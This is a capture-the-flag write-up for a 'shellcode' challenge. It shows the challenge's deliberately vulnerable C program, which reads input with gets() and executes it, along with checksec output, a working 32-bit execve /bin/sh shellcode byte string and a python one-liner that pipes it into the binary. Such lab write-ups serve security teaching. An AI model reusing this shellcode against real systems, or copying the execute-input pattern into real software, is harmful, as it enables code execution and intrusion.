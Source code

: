 shellcode - Points: 200
===========

## Description

>This program executes any input you give it. Can you get a shell?

## Hint:

> * Maybe try writing some shellcode?
> * You also might be able to find some good shellcode online.


## Vulnerable Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter a string!");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();
     
  return 0;
}


```

## Useful Information

checksec shellcode

    Arch:     i386-32-little

    RELRO:    Partial RELRO
    
    Stack:    No canary found
    
    NX:       NX disabled
    
    PIE:      No PIE (0x8048000)
    
    RWX:      Has RWX segments

> NX is disabled and the Arch is i386-32-little.We need to execute a 32bits shellcode like :
**\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80**

> User input require "cat" for keep the process alive for execute our command.

## Exploit
Send the shellcode as user input with python:

> (python -c 'print "\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80"';cat flag.txt)|./shellcode

